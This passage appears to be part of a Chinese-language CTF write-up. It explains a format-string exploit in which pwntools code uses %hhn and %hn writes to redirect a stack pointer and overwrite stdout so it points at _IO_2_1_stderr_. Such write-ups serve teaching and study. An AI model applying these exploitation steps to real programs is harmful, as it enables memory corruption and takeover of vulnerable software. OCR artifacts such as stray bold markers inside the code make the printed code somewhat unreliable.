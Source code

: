 **然后，我们就能利用%t$hhn****来对0x7FFF7543E1C8****地址处写入了，我们先把a****指向stdout**

1.  sh.recvuntil('0x')  
2.  #获得a指针的地址  
3.  stack = int(sh.recvuntil('\n',drop=True),16)  
4.  **print** hex(stack)  

6.  payload = '%' + str(stack & 0xFF) + 'c%6$hhn'  
7.  sh.recvuntil('may you enjoy my printf test!\n')  
8.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  
9.  #注意，休眠是必要的  
10.  **time.sleep(0.5)**
11.  payload = '%' + str(**stdout_bss & 0xFF**) + 'c%10$hhn'  
12.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  

由于没有任何操作成功的提示，我们需要休眠一下，再继续发送数据

现在，我们看看栈里的布局，（**我们重新运行了程序，所以和前面的图有些不一样**）

![](img/a183e259e42ed549e49e9fd78a0bb424.png)

a指针![](img/e6e87087ce456786d291dc76f9bb9a1c.png)成功指向了stdout指针，那么现在stdout指针的地址也在栈里了，我们就能继续利用printf，修改stdout指针的值了，我们只需低2个字节覆盖即可

1.  #注意，休眠是必要的  
2.  time.sleep(0.5)  
3.  payload = '%' + str(**_IO_2_1_stderr_ & 0xFFF**) + 'c%9$hn'  
4.  sh.sendline(payload.ljust(0x12C-1,'\x00'))  

我们之所以写**_IO_2_1_stderr_ & 0xFFF** 而不写_IO_2_1_stderr_ & 0xFFFF的原因是，**经过调试，发现****_IO_2_1_stderr_ & 0xFFFF****，printf****执行后没有成功修改数据，可能是因为数据太大的原因**，注意，**我们对****stdout****指针的修改必须一次完成，因为，如果我们分开的话，由于stdout****指针修改了，所以在没完成全部修改之前，stdout****就指向了其他地方，不是FILE****结构体，导致printf****执行错误崩溃**

我们通过_IO_2_1_stderr_ & 0xFFF和%9$hn，最终导致**stdout****指针的值的倒数第四个十六进制数为0**，由于PIE的存在，我们有**1/16****的可能**，使得stdout指针正好指向_IO_2_1_stderr_结构体

![](img/fdb1bd4bd874bbea22d1bb40933c9dcb.png)
